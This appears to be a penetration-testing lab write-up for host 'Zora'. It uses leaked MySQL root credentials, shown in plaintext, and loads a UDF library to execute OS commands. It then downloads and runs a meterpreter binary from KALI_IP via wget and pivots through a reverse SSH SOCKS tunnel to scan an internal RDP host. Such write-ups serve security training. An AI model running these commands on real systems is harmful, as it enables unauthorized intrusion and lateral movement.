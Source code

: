 # Zora (10.5.5.11)
***
## Exploitation

1. MySQL root and password was retrieved from `/root/.bash_history` file of Ajla (`10.4.4.10`). We used the credentials to connect to the mysql server.
   
``` 
mysql -u root -pBmDu9xUHKe3fZi3Z7RdMBeb --host=127.0.0.1 --port=13306
```

> [!info] 
> One of the techniques to execute OS commands using MySQL is through the use of **[User Defined Functions (UDF)](https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection/mysql-ssrf#user-defined-functions-to-rce)**. 
> 
> Using our console access (with root privilege), we are able to write a library (`.so`) containing a User Defined Functions (e.g function that execute OS commands) that can be then invoked through additional queries.

2. We've created a function named `sys_exec` (that will execute OS commands), through the use of the following queries. 
```
MariaDB [(none)]> set @shell = 0x<HEX_OF_SO>; select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so'; create function sys_exec returns int soname 'udf_sys_exec.so'; select * from mysql.func where name='sys_exec';
```

3. We downloaded and executed the meterpreter shell into the database server using the command:
```
MariaDB [(none)]> select sys_exec('wget http://KALI_IP/xshell.elf && chmod +x xshell.elf && ./xshell.elf');
```

4. We got our meterpreter shell afterwards.
   ![[zora-meterpreter.png]]
   
***
## Post-exploitation

> [!info] 
> Using our reverse shell, we checked on mounted-share using `cat /etc/fstab`, and we found out that a share is mounted from the `10.5.5.20` host.  The host `10.5.5.20` is only accessible internally, so we have to set up another port forward for us to be able to access it directly from our Kali machine.
> 
> Also, a powershell script named `system_report.ps1` was found inside `/mnt/Scripts` containing credentials of a domain user named `alex`. 
   
1. Using our meterpreter shell, we generated a keypair (`ssh-keygen`) and added zora's  public key to our Kali machine.
``` 
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3Nza....Uzqt4+ns= mysql@zora
```

2. We set up a dynamic port forward (SOCKS) from Zora to Kali using port **1080**
   
```
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@KALI_IP
```

```
sudo echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf
```

3. From our Kali, we scanned `10.5.5.20` for open ports using the command `proxychains nmap --top-ports=20 -sT -Pn 10.5.5.20` 
We discovered an open port **3389** running **Remote Desktop Protocol (RDP)**.

